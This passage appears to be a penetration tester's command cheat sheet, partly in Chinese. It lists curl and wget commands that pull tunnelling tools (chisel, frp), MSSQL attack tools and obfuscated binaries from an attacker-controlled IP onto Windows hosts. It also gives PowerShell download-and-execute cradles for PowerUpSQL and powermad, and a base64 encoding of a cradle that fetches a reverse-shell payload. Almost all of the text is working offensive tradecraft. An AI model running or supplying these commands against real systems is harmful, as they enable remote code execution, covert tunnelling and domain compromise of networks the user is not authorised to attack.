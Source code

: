 curl http://10.10.15.160/tools/chisel.exe -o C:\Users\Public\chisel.exe
curl http://10.10.15.160/obf/SharpChisel.exe -o C:\Users\Public\SharpChisel.exe


__frp__

curl http://10.10.15.160/tools/frp_win/frps.exe -o C:\Users\Public\frps.exe

curl http://10.10.15.160/tools/frp_win/frpc.exe -o C:\Users\Public\frpc.exe

wget http://10.10.15.160/tools/frp_lin/frps

wget http://10.10.15.160/tools/frp_lin/frpc


> mssql

**SqlClient.exe**

curl http://10.10.15.160/obf/SqlClient.exe -o C:\Users\Public\SqlClient.exe
 
**AutoSQL.exe**

curl http://10.10.15.160/tools/AutoSQL.exe -o C:\Users\Public\AutoSQL.exe

**PowerUpSQL.ps1**

``` powershell
((new-object net.webclient).downloadstring('http://10.10.15.160/tools/ps1/PowerUpSQL.ps1')) | iex
```

> 其他

配合RBCD 添加计算机账户 powermad / StandIN

```
iex ((new-object net.webclient).downloadstring('http://10.10.15.160/tools/ps1/powermad.ps1')) 
```




---
## 加密

``` powershell
$text = "(New-Object System.Net.WebClient).DownloadString('http://10.10.15.160/out/ps1/rev1.txt') | IEX"

$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)

$EncodedText = [Convert]::ToBase64String($bytes)

$EncodedText | clip
```


---
## 参考
[混淆的程序](https://github.com/Flangvik/ObfuscatedSharpCollection/tree/main)

[混淆powershell脚本]()

[混淆hta]()